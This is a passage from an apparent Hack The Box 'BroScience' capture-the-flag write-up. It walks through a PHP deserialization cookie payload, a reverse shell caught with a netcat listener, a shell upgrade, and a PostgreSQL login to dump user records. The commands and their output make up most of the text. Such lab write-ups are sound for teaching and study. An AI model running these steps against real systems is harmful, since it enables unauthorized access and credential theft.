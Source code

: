 ```php
$payload = base64_encode(serialize($avatar));
echo $payload;
```
4. Go to the website, change the value of `user-prefs` cookie to payload generated in step 3, and refresh. I see the file was downloaded from the webserver
```
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.195 - - [05/Apr/2023 10:57:20] "GET /payload HTTP/1.0" 200 -
10.10.11.195 - - [05/Apr/2023 10:57:20] "GET /payload HTTP/1.0" 200 -
10.10.11.195 - - [05/Apr/2023 10:57:20] "GET /payload HTTP/1.0" 200 -
```
5. Visit https://broscience.htb/rev.php and get a callback on the netcat listener!!!
```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.195] 40876
sh: 0: can't access tty; job control turned off
$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

## Privilege escalation

First, let's upgrade to a proper shell

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@broscience:/var/www/html$ ^Z
[1]  + 57720 suspended  nc -lvnp 9999

~/Blog/HTB/BroScience main* 17m 11s ❯ stty raw -echo; fg
[1]  + 57720 continued  nc -lvnp 9999

www-data@broscience:/var/www/html$ stty rows 52 cols 229
www-data@broscience:/var/www/html$ export TERM=xterm
```

I'm the `www-data` user since this user started the website process. There is one other user, bill. First, i am going to check out the database to see if it has some credentials for bill. I have the connection information from the `database_connect.php` file, and since it's using a `pg_connect()` function, i know its PostgreSQL databse.

```
www-data@broscience:/$ /usr/bin/psql -U dbuser -h localhost -d broscience -W 
Password: 
psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience=> \dt
           List of relations
 Schema |   Name    | Type  |  Owner   
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres
(3 rows)

broscience=> select * from users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
```